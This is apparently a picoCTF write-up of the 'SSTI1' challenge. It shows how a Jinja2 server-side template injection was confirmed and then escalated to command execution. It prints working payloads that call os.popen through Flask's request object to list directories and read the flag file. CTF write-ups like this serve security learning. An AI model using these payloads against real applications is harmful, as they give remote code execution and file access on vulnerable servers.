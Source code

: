 ## SSTI1
Author: Venax

Category: Web Exploitation

Difficulty: Easy

## Description
I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.

## Solve 
**Flag:** `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}`

- In this challenge, since the website annouces everything we type, then we can use it to try out server side template injection attacks.
- Here, I first identified the type of template the server was using. It turned out to be `jinja2`. Payload: `{{7*'7'}}`

   <img width="1919" height="469" alt="Screenshot 2025-10-16 214547" src="https://github.com/user-attachments/assets/48c49d90-952a-4a0b-a5b5-af42cded3f6c" />

- So I searched around and found what kind of payloads we can use to list out the contents of the server. Using that, I found out that a `challenge` directory exists on the server. Payload: `{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -la /').read() }}`
   
   <img width="1919" height="638" alt="Screenshot 2025-10-16 214010" src="https://github.com/user-attachments/assets/218478f9-d43b-4c41-a4cc-455d1ebac2f8" />

- So once again I used the same payload with some changes to list out the contents of the `challenge` directory. Payload: `{{ request.application.__globals__.__builtins__.__import__('os').popen('ls -la /challenge').read() }}`

   <img width="1919" height="592" alt="Screenshot 2025-10-16 214146" src="https://github.com/user-attachments/assets/31e035bd-d190-4ab7-8e94-21b463947a4f" />

- In that, I found the flag file. So again I modified the payload and this time used it to display the contents of the flag file to get the flag. Payload: `{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}`

   <img width="1702" height="353" alt="Screenshot 2025-10-16 213627" src="https://github.com/user-attachments/assets/62b58210-c571-4aa0-8e01-8397b843a166" />

## Learnings 
1. Vulnerability Confirmation: We used simple math payloads (e.g., {{ 7*7 }}) to confirm the input was being processed by a Jinja2 template engine.
2. Privilege Escalation: By observing that the RCE payload (using os.popen or subprocess.Popen) returned root for UID/GID, we confirmed the template engine was running with maximum system privileges.
3. RCE via the request Object: We learned the most reliable Jinja2 RCE chain for Flask applications: accessing the global scope via the available request object (request.application.__globals__).
4. Module Loading: We confirmed that to execute arbitrary shell commands, we must use the built-in Python function __import__('os') to load the os module.
5. Information Gathering: We used the RCE capability to pivot from template injection to filesystem exploration using Linux shell commands like ls -la / and cat /path/to/flag.

## References
1. [Server side template injection with jinja2](https://onsecurity.io/article/server-side-template-injection-with-jinja2/)
